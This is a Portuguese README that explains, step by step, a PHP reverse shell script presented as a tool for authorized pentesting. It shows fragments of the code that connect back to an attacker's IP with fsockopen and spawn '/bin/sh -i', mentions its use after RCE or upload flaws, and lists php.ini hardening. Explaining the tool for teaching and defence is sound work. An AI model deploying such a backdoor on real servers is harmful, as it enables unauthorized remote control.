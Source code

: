 
# 🐚 PHP Reverse Shell

Este repositório contém um script de **shell reverso em PHP**, adaptado e comentado em português, ideal para fins educacionais e testes de segurança autorizados.

---

## ⚠️ AVISO IMPORTANTE

Este código é **potencialmente perigoso** e pode ser utilizado de forma maliciosa. No entanto, ele também tem **aplicações legítimas** em testes de intrusão (pentest), auditorias de segurança e simulações ofensivas.

> ❗ **Nunca utilize este tipo de código em sistemas sem permissão explícita.**  
> O uso indevido pode violar leis locais e internacionais.  
> O autor **não se responsabiliza** por qualquer dano ou uso indevido.

---

## 🔍 O que o código faz — Explicado passo a passo

Este código é um shell reverso, ou seja, um tipo de **backdoor** que faz com que o servidor PHP (vítima) se conecte a outro computador (atacante), oferecendo um terminal remoto com o mesmo privilégio do processo PHP (normalmente `www-data`, `apache`, etc.).

### 1. Configuração Inicial

```php
set_time_limit(0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // IP do atacante - deve ser alterado
$port = 1234;       // Porta do atacante - deve ser alterada
```

- `set_time_limit(0)` → desativa o limite de tempo do script (ele roda indefinidamente).
- `$ip` e `$port` → definem para onde o script PHP irá se conectar.

---

### 2. Comando Inicial

```php
$shell = 'uname -a; w; id; /bin/sh -i';
```

- Executa comandos úteis para identificar o sistema e depois inicia um shell interativo:
  - `uname -a` → informações do sistema operacional.
  - `w` → usuários logados.
  - `id` → UID e grupos do processo.
  - `/bin/sh -i` → shell interativo.

---

### 3. Daemonização (opcional)

```php
if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    ...
}
```

- Se possível, transforma o script em **daemon** (processo de segundo plano):
  - Oculta o processo.
  - Evita "zombies".
- Caso não seja possível, ele continua normalmente e exibe um aviso.

---

### 4. Conexão com o atacante

```php
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
```

- Abre uma conexão TCP para o IP/porta do atacante.
- Esse será o canal reverso para o shell.
- Se falhar, o script termina.

---

### 5. Execução do processo do shell

```php
$process = proc_open($shell, $descriptorspec, $pipes);
```

- Inicia um processo `/bin/sh -i` com entrada e saída redirecionadas para pipes.
- Permite redirecionar comandos e saídas via socket TCP.

---

### 6. Torna os streams não bloqueantes

```php
stream_set_blocking(..., 0);
```

- Evita que o script fique travado aguardando leitura ou escrita em um stream.

---

### 7. Loop de comunicação

```php
while (1) {
    ...
}
```

- Loop infinito que:
  - Lê dados do socket (comandos do atacante) → envia ao shell.
  - Lê saída do shell → envia de volta ao socket.
- Atua como um **proxy de terminal interativo** entre vítima e atacante.

---

### 8. Encerramento limpo

- Fecha todos os pipes, socket e termina o processo:
```php
fclose(...);
proc_close(...);
```

---

### 9. Função `printit()`

```php
function printit($string) {
    if (!$daemon) {
        print "$string\n";
    }
}
```

- Exibe mensagens de log no terminal **apenas se não estiver daemonizado**.
- Útil para depuração ou execução manual.

---

## ✅ Exemplos de uso legítimo

- Testes de segurança (pentest) com permissão da empresa/cliente.
- Simulações de ataque para avaliar respostas de segurança.
- Análises forenses e educacionais.

---

## 💡 Conclusão Técnica

Este script:

- Cria um canal de comunicação reverso (inbound no atacante, outbound na vítima).
- Permite execução remota de comandos em tempo real.
- Não depende que a vítima tenha portas abertas — apenas que o PHP tenha funções habilitadas.
- Muito útil em exploração de vulnerabilidades como RCE, LFI+log poisoning ou upload malicioso.

---

## 🛡️ Proteção recomendada

No `php.ini`, desative funções perigosas para evitar exploração:

```ini
disable_functions = proc_open, shell_exec, system, passthru, exec, popen, fsockopen
```

---

## 🧑‍💻 Autor

- [h4ckthreat](https://www.instagram.com/h4ckthreat/)

---

## 📄 Licença

Distribuído sob a [GNU GPL v3](https://www.gnu.org/licenses/old-licenses/gpl-3.0.html).
